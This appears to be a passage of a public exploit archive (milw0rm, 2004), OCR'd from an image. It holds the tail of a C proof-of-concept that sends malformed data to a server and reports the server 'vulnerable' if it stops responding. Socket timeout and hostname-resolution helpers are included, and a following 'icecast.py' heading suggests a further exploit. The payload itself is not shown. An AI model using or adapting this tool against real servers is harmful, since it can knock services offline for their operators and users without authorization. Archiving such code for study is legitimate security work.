         fputs("- send malformed data\n", stdout);
        if(send(sd, buf, strlen(buf), 0)
          < 0) std_err();

        if((timeout(sd) < 0) || (recv(sd, buff, BUFFSZ, 0) < 0)) {
            fputs("\nServer IS vulnerable!!!\n\n", stdout);
        } else {
            fputs("\nServer doesn't seem vulnerable\n\n", stdout);
        }

        close(sd);
        return(0);
    }

    int timeout(int sock) {
        struct timeval tout;
        fd_set fd_read;
        int err;

        tout.tv_sec = TIMEOUT;
        tout.tv_usec = 0;
        FD_ZERO(&fd_read);
        FD_SET(sock, &fd_read);
        err = select(sock + 1, &fd_read, NULL, NULL, &tout);
        if(err < 0) std_err();
        if(!err) return(-1);
        return(0);
    }

    u_long resolv(char *host) {
        struct hostent *hp;
        u_long host_ip;

        host_ip = inet_addr(host);
        if(host_ip == INADDR_NONE) {
            hp = gethostbyname(host);
            if(!hp) {
                printf("\nError: Unable to resolve hostname (%s)\n", host);
                exit(1);
            } else host_ip = *(u_long *)(hp->h_addr);
        }
        return(host_ip);
    }

    #ifndef WIN32
        void std_err(void) {
            exit(1);
        }
    #endif

    // milw0rm.com [2004-10-06]

icecast.py
----------
